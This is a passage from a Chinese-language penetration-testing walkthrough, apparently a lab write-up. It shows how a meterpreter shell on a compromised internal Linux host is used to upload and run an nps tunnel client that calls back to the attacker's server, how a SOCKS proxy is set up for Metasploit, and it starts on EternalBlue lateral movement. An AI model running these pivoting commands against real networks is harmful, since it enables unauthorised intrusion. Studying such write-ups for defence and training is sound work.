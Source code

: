 由于已经获取了位于内网的linux主机权限，可以通过这个meterpreter shell 来设置socks代理，这样就可以msf中访问内网中的其它主机和端口了。<br>
先下载nps客户端和服务端到kali攻击机中<br>
解压安装nps<br>
./nps install<br>
启动nps<br>
nps start

[![](https://p4.ssl.qhimg.com/t01330faa32fefee31c.png)](https://p4.ssl.qhimg.com/t01330faa32fefee31c.png)

访问本地Ip的8080 端口，链接为[http://192.168.14.4:8080](http://192.168.14.4:8080) 可访问nps管理后台，输入admin/123 登录。点击添加客户端

[![](https://p0.ssl.qhimg.com/t01ce88e44331904727.png)](https://p0.ssl.qhimg.com/t01ce88e44331904727.png)

然后在msf中上传linux_amd64_client.tar.gz客户端到内网linux主机的/tmp/目录中。<br>
upload /root/nps/linux_amd64_client.tar.gz /tmp/nps.tar.gz<br>
在linux主机中执行解压

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016c87a1af6a272cf9.png)

回到nps后台中，展开客户端，复制客户端命令

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0103c81d9de3916e9b.png)

在msf meterpreter 中执行下面命令让客户端连上服务器<br>
execute -f /tmp/npc -a ‘-server=192.168.14.4:8024 -vkey=0fr8k4rsh8tjl8ut -type=tcp’

[![](https://p1.ssl.qhimg.com/t01580c9a830ad43975.png)](https://p1.ssl.qhimg.com/t01580c9a830ad43975.png)

在后台管理处看到客户端状态是在线即成功连上nps服务器。

[![](https://p3.ssl.qhimg.com/t010d05a22318c32c88.png)](https://p3.ssl.qhimg.com/t010d05a22318c32c88.png)

接着在后台管理处添加一个socks代理，输入刚才创建的客户端id，端口为1086

[![](https://p4.ssl.qhimg.com/t0171aaabf2f54c4c90.png)](https://p4.ssl.qhimg.com/t0171aaabf2f54c4c90.png)

此时可以通过本地的1086端口的socks代理访问192.168.90.0 网段的主机。在msf中输入下面命令设置socks代理。<br>
setg proxies socks5:127.0.0.1:1086

[![](https://p1.ssl.qhimg.com/t01ca860ef0fccd343c.png)](https://p1.ssl.qhimg.com/t01ca860ef0fccd343c.png)

### <a class="reference-link" name="5.%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8"></a>5.永恒之蓝横向移动

设置好到进入192.168.90.0 网段的socks代理后，可以使用msf对该网段进行扫描，先扫描永恒之蓝漏洞
